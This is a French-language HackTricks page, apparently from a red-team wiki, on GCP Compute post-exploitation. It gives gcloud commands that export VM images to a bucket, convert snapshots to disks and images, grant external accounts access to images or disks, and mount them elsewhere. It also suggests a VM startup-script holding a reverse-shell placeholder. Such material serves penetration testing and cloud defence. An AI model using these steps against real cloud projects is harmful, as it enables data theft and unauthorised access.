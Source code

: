 # GCP - Compute Post Exploitation

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Compute

Pour plus d'informations sur Compute et VPC (Networking), consultez :

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### Exporter et inspecter les images localement

Cela permettrait à un attaquant d'**accéder aux données contenues dans des images déjà existantes** ou de **créer de nouvelles images de VM en cours d'exécution** et d'accéder à leurs données sans avoir accès à la VM en cours d'exécution.

Il est possible d'exporter une image de VM vers un bucket, puis de la télécharger et de la monter localement avec la commande :

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

Avant d'effectuer cette action, l'attaquant pourrait avoir besoin de privilèges sur le bucket de stockage et certainement **des privilèges sur cloudbuild** car c'est le **service** qui sera sollicité pour effectuer l'exportation.\
De plus, pour que cela fonctionne, le codebuild SA et le compute SA doivent avoir des permissions privilégiées.\
Le cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` a besoin de :

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

Et le SA `<project-id>-compute@developer.gserviceaccount.com` a besoin de :

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### Exporter et inspecter les snapshots et disques localement

Il n'est pas possible d'exporter directement des snapshots et des disques, mais il est possible de **transformer un snapshot en disque, un disque en image** et, en suivant la **section précédente**, d'exporter cette image pour l'inspecter localement

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### Inspecter une Image en créant une VM

Dans le but d'accéder aux **données stockées dans une image** ou à l'intérieur d'une **VM en cours d'exécution** à partir de laquelle un attaquant **a créé une image,** il est possible d'accorder à un compte externe l'accès à l'image :
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
et ensuite créer une nouvelle VM à partir de celle-ci :
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
Si vous ne pouviez pas donner à votre compte externe l'accès à l'image, vous pourriez lancer une VM en utilisant cette image dans le projet de la victime et **faire en sorte que les métadonnées exécutent un reverse shell** pour accéder à l'image en ajoutant le paramètre :
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

Dans le but d'accéder aux **données stockées dans un disque ou un snapshot, vous pourriez transformer le snapshot en disque, un disque en image et suivre les étapes précédentes.**

Ou vous pourriez **accorder l'accès à un compte externe** sur le disque (si le point de départ est un snapshot, donner l'accès sur le snapshot ou créer un disque à partir de celui-ci) :
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**Attacher le disque** à une instance :
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
Monter le disque à l'intérieur de la VM :

1.  **SSH dans la VM** :

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **Identifier le Disque** : Une fois à l'intérieur de la VM, identifiez le nouveau disque en listant les périphériques de disque. Typiquement, vous pouvez le trouver comme `/dev/sdb`, `/dev/sdc`, etc.
3. **Formater et Monter le Disque** (si c'est un disque neuf ou brut) :
*   Créer un point de montage :

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   Monter le disque :

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

Si vous **ne pouvez pas donner accès à un projet externe** au snapshot ou au disque, vous devrez peut-être **effectuer ces actions à l'intérieur d'une instance dans le même projet que le snapshot/disque**.

{% hint style="success" %}
Apprenez et pratiquez AWS Hacking :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez GCP Hacking : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
